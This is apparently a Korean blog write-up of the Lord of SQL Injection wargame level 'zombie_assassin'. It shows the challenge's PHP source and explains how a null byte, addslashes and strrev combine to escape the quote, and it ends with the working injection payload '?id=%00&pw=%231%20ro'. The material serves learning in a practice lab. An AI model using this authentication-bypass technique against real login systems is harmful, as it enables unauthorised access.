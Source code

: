```yaml
---
layout: post
title:  "los prob_zombie_assassin"
date:   2019-10-28
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_zombie_assassin where id='' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();
  $_GET['id'] = strrev(addslashes($_GET['id']));
  $_GET['pw'] = strrev(addslashes($_GET['pw']));
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. strrev, addslashes 함수
2. '(싱글쿼터) 이외에 addslashed가 적용되는 문자 -> %00, "
3. \' 문자취급
4. 최종 쿼리문 -> select id from prob_zombie_assassin where id='0\' and pw='or 1#'
5. strrev 생각하며 값을 집어넣음

### ?id=%00&pw=%231%20ro

## ZOMBIE_ASSASSIN Clear!
